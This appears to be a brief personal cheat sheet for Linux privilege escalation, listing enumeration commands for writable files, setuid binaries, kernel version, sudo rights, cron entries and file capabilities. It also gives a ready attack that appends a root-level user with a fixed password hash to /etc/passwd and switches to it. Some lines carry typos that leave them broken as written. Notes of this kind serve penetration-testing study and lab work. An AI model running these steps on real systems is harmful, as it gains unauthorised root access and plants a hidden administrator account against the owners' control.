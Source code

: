 #Linux PrivEsc
## Find interesting files
find / -writable -type f 2>/dev/null  #Writable files
find / -writable -type d 2>/dev/null #Writable directories
find / -perm -u=s -type f 2>/dev/null #Setuid executables

## Passwd file writable?
s -al /var/etc/passwd 
lopenssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2

## OS information --> kernel exploit?
hostname
cat /etc/issue
cat /etc/os-release
uname -a

## Envirionment variables
env 

## Sudo privileges
sudo -l 

## Running services
ps -aux (evt met watch) 

## Cron
grep "CRON"  /var/log/syslog

 ## Possible overprived services/applicaitons
/usr/sbin/getcap -r / 2>/dev/null 

